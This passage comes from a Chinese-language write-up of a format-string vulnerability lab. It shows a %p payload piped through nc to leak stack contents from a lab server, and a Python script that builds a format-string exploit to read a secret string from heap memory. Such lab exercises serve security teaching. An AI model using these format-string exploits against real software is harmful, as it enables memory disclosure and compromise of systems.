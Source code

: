 构造输入payload：

```terminal
echo AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p | nc 10.9.0.5 9090
```

`printf`中占位符`%p`的作用是将所指向的数据地址以十六进制的形式输出。所以当`printf`解析到第一个%p时会从栈顶指针esp+0x4的位置开始打印出栈上的数据，之后依次类推：

![image-20220421200232373](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012317592.png)

可以发现第一个`%p`打印出来的就是程序中输出的`target variable’s value: 0x11223344`，在第64个偏移处打印了`0x41414141`即输入的AAAA。说明输入的payload被保存在距离esp第64个偏移处（即buffer的起始地址）。

并且在打印出的stack data张可以发现有3个`0xffffd3b0`，是main函数中`buf`的地址，分别是call `dummy_function`,`myprintf`和`printf`时作为参数压入栈中，中间大量的`nil`是在`dummy_function`中通过`memset`填充的0。



### Task 2.B: Heap Data

由之前打印出来的信息可以知道secret message的地址是：`0x080b4008`，buffer的地址距离esp有64个偏移。

构造Payload:（这里可以没有abcd）

```python
#!/usr/bin/python3

import sys

# Initialize the content array

N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0

number  = 0x080b4008	# 把secret message的地址放在buffer开头

content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4

content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"

# 因为第64个是buffer的起始地址，所以先填63个%.8x(%p也可以)，第64个填%s输出字符串
s = "%.8x"*63 + "%s"	


# The line shows how to store the string s at offset 8

fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile

with open('badfile', 'wb') as f:
  f.write(content)
```
